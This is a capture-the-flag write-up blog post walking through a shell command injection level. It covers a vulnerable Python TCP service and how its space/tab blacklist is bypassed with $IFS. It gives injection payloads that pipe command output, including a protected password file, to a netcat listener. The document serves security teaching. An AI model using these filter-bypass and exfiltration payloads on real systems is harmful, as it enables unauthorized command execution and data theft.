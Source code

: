 ```yaml
---
title:  "[CTF] Binary Master Lieutenant - 3"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-brown.png)


In this post we'll continue with the third level from the [Lieutenant](https://www.certifiedsecure.com/certification/view/37) set of challenges from **Certified Secure Binary Mastery**. We will be dealing with another classic vulnerability - _shell command injection_. I really enjoyed this level and I believe it is quite clever.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})
* [Binary Master: Ensign - Level 5]({{ site.baseurl }}{% post_url 2016-02-09-binary-master-ensign-5 %})
* [Binary Master: Lieutenant - Level 1]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %})
* [Binary Master: Lieutenant - Level 2]({{ site.baseurl }}{% post_url 2016-02-23-binary-master-lieutenant-2 %})

Before we begin, here's a list of resources containing different tricks to bypass filters meant to prevent command injection:
* [OS Command execution](https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution)
* [Bypassing bash command injections restrictions](http://thomasforrer.blogspot.co.uk/2014/07/bypassing-bash-command-injections.html)
* [Command Injection Without Spaces](http://www.betterhacker.com/2016/10/command-injection-without-spaces.html)
* [Bash Brace Expansion Cleverness](https://jon.oberheide.org/blog/2008/09/04/bash-brace-expansion-cleverness/)
 
## 0 - Discovery
```python
#!/usr/bin/env python

import sys
import SocketServer
import os
import string
import threading

HOST = '127.0.0.1'
PORT = 9999
PASSWORD = "iknowthepassword"

class SysTCPHandler(SocketServer.BaseRequestHandler):

    def handle(self):
        self.request.sendall('Password: ')
        
        if self.request.recv(1024).strip() == PASSWORD:                    [1]
            self.request.sendall('$ ')
            cmd = self.request.recv(1024)
    
            while len(cmd) > 0:
                os.system(self.filter(cmd))
                self.request.sendall('> output sent to console\n')
                self.request.sendall('$ ')
                cmd = self.request.recv(1024)

    def filter(self, cmd):                                                 [2]
        # We only want people to pass arguments
        bad_chars = " \t<"

        return cmd.translate(None, bad_chars);

if __name__ == '__main__':
    # We don't need this anymore since it's provided by the upstart service
    #os.chroot('/chroot')
    
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
    
    server = SocketServer.ForkingTCPServer((HOST, PORT), SysTCPHandler)
    server.serve_forever()
```

Let's spend a few moments to understand how this program works. Notice that upon starting, the program changes its group and user ids to level4 (uid=1005, gid=1005):

```python
    try:
        os.setgid(1005)
        os.setuid(1005)
    except OSError, e:
        sys.exit(-1)
```

There is also an indication that the application will be chroot-ed to **/chroot**. If we inspect this folder, we can see it's owned by root, with no write permissions for other users. That means we'll have a problem - **the python script will not be able to write anything there**:

```
drwxr-xr-x  8 root root  4096 May 12 12:42 chroot
```

Inside this folder we have an interesting file, for which the python script **will have access** - _password.txt_:

```
-rw-r-----  1 root level4   18 May 12 12:36 password.txt
```

After dealing with permissions, the script starts a TCP server listening on port 9999. After checking a hardcoded password at **[1]**, the script will read a command from the user, filter it and then execute it. Filtering is done at **[2]**, based on a blacklist of forbidden characters, including _Space_, _Tab_ and _<_.

## 1 - Vulnerability
 
Although having this blacklist might sound like a good idea (definitely better than nothing), in practice most of the times it is a bad idea to filter known-bad input from the user. Attackers can be very creative.

## 2 - Exploit
So let's see what's the problem. We have two issues:
* First one basically reduces to executing commands without whitespaces. 
* Secondly, we need a way to see the responses.

### Executing commands
The python script executes commands using the following syntax:

```python
os.system(filtered_cnd)
```

According to the [documentation](https://docs.python.org/2/library/os.html#os.system), _os.system_ is implemented by calling the Standard C function **_system()_**. Going further, the [man page](http://man7.org/linux/man-pages/man3/system.3.html) for _system_ function states:

```
       The system() library function uses fork(2) to create a child process
       that executes the shell command specified in command using execl(3)
       as follows:

           execl("/bin/sh", "sh", "-c", command, (char *) 0);
```           

The resources refenreced in the beginning suggest that the **$IFS** environment variable might be a good place to start. After playing with different combinations locally, I've noticed that it works fine, but whenever $IFS is followd by a number or letter, they together get interpreted as a single variable. My workaround was to define more variables when needed. 

So let's see how we can introduce a simple delay, which signifies that the command injection was successful:

```bash
$ python -c 'import os; os.system("T=10&&sleep$IFS$T")'
```

Pasting the same command into the shell of level4 produces a 10-seconds delay - it worked!


### Getting command results

Since there is no possibility to write anything on the disk and also we cannot view the output of our commands, we need to think of another way. Let's be creative. Since this level is a lot about networking, I'll use the Swiss Army Knife **nc** utility to forward any results to me. I'll establish a listener on a port greater than 1024 then trick the filter to accept my command:

```bash
(on a terminal)
$  nc -lvvp 2000

(in the level4 console)
$ MSG=hello&&IP=0&&PORT=2000&&echo$IFS$MSG|nc$IFS-nvv$IFS$IP$IFS$PORT
```

Strangely, however, nothing happens. After some thinking, I realised that the _nc_ program inside the chroot environment is just a symbolic link. Fortunately, **nc.openbsd** is also present in /chroot/bin:

```
$ ls -alh /chroot/bin/nc
lrwxrwxrwx 1 root root 20 May 12 12:36 /chroot/bin/nc -> /etc/alternatives/nc
$ ls -alh /chroot/etc/alternatives/nc
ls: cannot access /chroot/etc/alternatives/nc: No such file or directory
$ ls -alh /chroot/bin/nc.openbsd 
-rwxr-xr-x 1 root root 31K May 12 12:36 /chroot/bin/nc.openbsd
```

Let's see if we can get a simple message back:
![hello](/assets/images/bm8-0.png)

![borat](/assets/images/bm8-1.png)

## 3 - Profit

We can now read the password stored in password.txt, in the root of the chroot environment:

```bash
(in the level4 console)
$ IP=0&&PORT=2000&&cat$IFS/password.txt|nc.openbsd$IFS-nvv$IFS$IP$IFS$PORT

(on the listener)
$ nc -lvvp 2000
Listening on [0.0.0.0] (family 0, port 2000)
Connection from [127.0.0.1] port 2000 [tcp/cisco-sccp] accepted (family 2, sport 51920)
only*******s
```

This concludes the level. in the [next level]({{ site.baseurl }}{% post_url 2016-03-10-binary-master-lieutenant-4 %}) we'll analyse another interestting vulnerability - [Time of check to time of use -TOCTOU](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use).
